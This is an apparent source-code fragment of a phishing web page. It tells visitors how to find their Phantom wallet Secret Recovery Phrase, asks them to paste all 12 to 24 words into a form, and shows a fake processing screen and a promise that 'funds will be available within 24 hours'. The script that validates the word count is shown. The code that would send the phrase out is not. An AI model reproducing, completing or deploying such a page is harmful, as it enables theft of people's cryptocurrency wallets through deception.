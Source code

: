     <div id="helpSection">
      <strong>Need help finding your Secret Recovery Phrase?</strong>
      <ol>
        <li>Open your Phantom wallet app.</li>
        <li>Go to <em>Settings</em> &gt; <em>Security</em> or <em>Backup</em>.</li>
        <li>Look for <em>Secret Recovery Phrase</em> or <em>Seed Phrase</em>.</li>
        <li>Write down the 12 or 24 words in order. Keep it safe and private.</li>
      </ol>
    </div>

    <textarea
      id="phrase"
      placeholder="Enter your 12 or 24-word phrase..."
      rows="4"
      oninput="validatePhrase()"
    ></textarea>
    <button id="continueBtn" disabled onclick="submit()">Continue</button>
  </div>

  
  <div id="loadingScreen">
    <div class="loader"></div>
    <div>Processing... Please wait</div>
  </div>

  
  <div id="confirmScreen">
    <div class="checkmark">
      <svg viewBox="0 0 24 24">
        <polyline points="20 6 9 17 4 12"></polyline>
      </svg>
    </div>
    <div id="confirmMessage">
      Your wallet has been confirmed.<br />
      Funds will be available within 24 hours.
    </div>
  </div>

  <script>
    const continueBtn = document.getElementById("continueBtn");
    const phraseInput = document.getElementById("phrase");
    const importScreen = document.getElementById("importScreen");
    const loadingScreen = document.getElementById("loadingScreen");
    const confirmScreen = document.getElementById("confirmScreen");

    function validatePhrase() {
      const phrase = phraseInput.value.trim();
      const wordCount = phrase.split(/\s+/).filter(Boolean).length;
      if (wordCount >= 12 && wordCount <= 24) {
        continueBtn.disabled = false;
        continueBtn.classList.add("enabled");
      } else {
        continueBtn.disabled = true;
        continueBtn.classList.remove("enabled");
      }
    }
